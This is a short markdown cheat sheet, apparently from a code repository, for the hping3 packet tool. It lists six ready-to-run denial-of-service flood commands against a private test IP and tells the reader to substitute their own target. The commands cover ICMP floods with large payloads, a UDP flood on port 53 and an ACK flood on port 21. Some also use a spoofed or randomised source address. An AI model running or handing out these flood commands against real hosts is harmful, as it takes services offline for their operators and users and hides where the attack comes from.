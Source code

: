 # HPING3
### [Read](../manual/hping3.txt) hping3 manual 

### use your target ip instead
```bash
sudo hping3 --icmp --flood 192.168.247.131
```
```bash
sudo hping3 --icmp --flood --data 1200  192.168.247.131
```
```bash
sudo hping3 --icmp --flood --data 1200 --spoof 192.168.3.65  192.168.247.131
```
```bash
sudo hping3 --udp --flood -p 53   192.168.247.131 
```
```bash
sudo hping3 --ack --flood -p 21  192.168.247.131
```
```bash
sudo hping3 --icmp --flood --rand-source 192.168.247.131
```
